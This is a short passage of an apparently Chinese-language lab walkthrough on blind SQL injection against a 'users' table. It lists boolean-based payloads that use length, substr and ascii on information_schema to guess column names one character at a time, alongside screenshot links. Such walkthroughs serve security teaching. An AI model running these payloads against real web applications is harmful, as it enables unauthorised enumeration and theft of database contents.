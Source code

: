 
  - 猜解字段名的长度：1' and length(substr((select column_name from information_schema.columns where table_name='users' limit 3,1),1))=4 #   //猜解第3个字段的长度

  <img src="img\sql-blind10.jpg" alt="sql-blind10" style="zoom:67%;" />

  - 确定字段的名称（user）

  - 1’ and ascii(substr((select column_name from information_schema.columns where table_name=’users’ limit 0,1),1))=117 #   //u

  <img src="img\sql-blind11.jpg" alt="sql-blind11" style="zoom:67%;" />

  - 1’ and ascii(substr((select column_name from information_schema.columns where table_name=’users’ limit 1,1),1))=115 #   //s

  <img src="img\sql-blind12.jpg" alt="sql-blind12" style="zoom:67%;" />
